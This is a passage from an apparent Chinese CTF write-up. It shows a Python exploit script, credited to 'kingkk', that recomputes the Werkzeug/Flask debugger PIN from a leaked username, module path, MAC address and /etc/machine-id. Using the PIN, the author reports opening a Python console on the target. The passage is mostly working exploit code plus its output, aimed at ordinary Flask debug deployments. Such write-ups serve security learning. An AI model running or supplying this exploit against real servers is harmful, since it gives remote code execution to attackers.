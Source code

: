 ![](https://img-blog.csdnimg.cn/20200414173017862.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
得到`3a6ff5898390f421d3a796226e0e07c0339c79df1319cea55253e98e767c6118`

用kingkk师傅的exp：
```python
import hashlib
from itertools import chain
probably_public_bits = [
    'flaskweb'# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.7/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '2485410333015',# str(uuid.getnode()),  /sys/class/net/ens33/address
    '3a6ff5898390f421d3a796226e0e07c0339c79df1319cea55253e98e767c6118'# get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

![](https://img-blog.csdnimg.cn/20200414173202993.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)

传入`265-149-843`直接进入python终端了
